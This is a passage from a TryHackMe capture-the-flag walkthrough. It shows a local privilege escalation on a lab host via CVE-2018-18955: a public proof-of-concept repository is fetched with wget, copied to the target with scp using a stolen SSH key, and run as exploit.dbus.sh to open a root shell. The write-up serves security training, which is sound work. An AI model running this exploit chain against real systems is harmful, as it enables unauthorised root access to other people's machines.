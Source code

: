 This vulnerability can be exploited in different ways depending on what is present on the target. So let's download the Github repository containing the different POCs for this vulnerability and transfer it to our target using SSH.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ wget https://github.com/scheatkode/CVE-2018-18955/archive/refs/heads/main.zip
--2024-09-29 11:00:00--  https://github.com/scheatkode/CVE-2018-18955/archive/refs/heads/main.zip
<SNIP>
2024-09-29 11:00:03 (103 KB/s) - ‘main.zip.1’ saved [11544]

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ unzip main.zip                                                               
Archive:  main.zip
da66cdc61c6be2c5049abe3239ecc5a317f5e48c
   creating: CVE-2018-18955-main/
<SNIP> 
  inflating: CVE-2018-18955-main/subuid_shell.c  

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ ls
CVE-2018-18955-main  beth_id_rsa  main.zip  port-list.txt

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ scp  -i beth_id_rsa -r ./CVE-2018-18955-main  beth@10.10.162.211:/tmp/ 
libsubuid.c                                                                                                                                                100%  357     1.4KB/s   00:00    
README.md                                                                                                                                                  100% 1252     6.9KB/s   00:00    
exploit.polkit.sh                                                                                                                                          100% 3218     7.7KB/s   00:00    
build.yaml                                                                                                                                                 100% 2209    18.9KB/s   00:00    
exploit.dbus.sh                                                                                                                                            100% 4223    13.4KB/s   00:00    
exploit.cron.sh                                                                                                                                            100% 2693     8.6KB/s   00:00    
exploit.ldpreload.sh                                                                                                                                       100% 2467    17.7KB/s   00:00    
rootshell.c                                                                                                                                                100%  147     0.5KB/s   00:00    
exploit.bash_completion.sh                                                                                                                                 100% 2448    20.8KB/s   00:00    
subuid_shell.c                                                                                                                                             100% 6540    20.8KB/s   00:00    
subshell.c 
```

We can now navigate to the /tmp directory on the target and run the *exploit.dbus.sh* variation of this POC to obtain a root shell.
```bash
beth@london:/tmp/CVE-2018-18955-main$ ls
exploit.bash_completion.sh  exploit.cron.sh  exploit.dbus.sh  exploit.ldpreload.sh  exploit.polkit.sh  libsubuid.c  README.md  rootshell.c  subshell.c  subuid_shell.c
beth@london:/tmp/CVE-2018-18955-main$ ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
<SNIP>
[*] Cleaning up...
[*] Launching root shell: /tmp/sh

root@london:/tmp/CVE-2018-18955-main# su
root@london:/tmp/CVE-2018-18955-main# ls -la /root
```